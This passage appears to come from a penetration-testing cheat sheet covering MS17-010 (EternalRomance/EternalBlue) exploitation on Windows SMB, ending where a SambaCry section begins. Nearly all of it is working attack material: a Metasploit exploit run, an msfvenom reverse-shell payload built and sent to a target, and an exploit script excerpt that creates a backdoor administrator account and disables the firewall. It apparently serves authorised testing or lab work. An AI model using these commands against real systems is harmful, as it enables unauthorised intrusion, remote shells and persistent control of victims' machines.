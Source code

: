 
#### EternalRomance

Exploit:

```
msf > use exploit/windows/smb/ms17_010_psexec
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```



### Manually

* [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)
* [https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)

Send MSF payload and execute it with `send_and_execute.py`:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
$ python send_and_execute.py 10.10.13.38 rev.exe
```

Or just execute commands on host via `zzz_exploit.py` (at least one named pipe must be accessible on target):

```
$ python zzz_exploit.py
```

{% code title="zzz_exploit.py" %}
```python
...
def smb_pwn(conn, arch):
	service_exec(conn, r'cmd /c net user snovvcrash Passw0rd! /add')
	service_exec(conn, r'cmd /c net localgroup administrators snovvcrash /add')
	service_exec(conn, r'cmd /c netsh firewall set opmode disable')
...
```
{% endcode %}

{% hint style="hint" %}
For x86 EternalBlue shellcodes use [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).
{% endhint %}




## SambaCry

**CVE-2017-7494** (Samba 3.5.0 < 4.4.14/4.5.10/4.6.4)
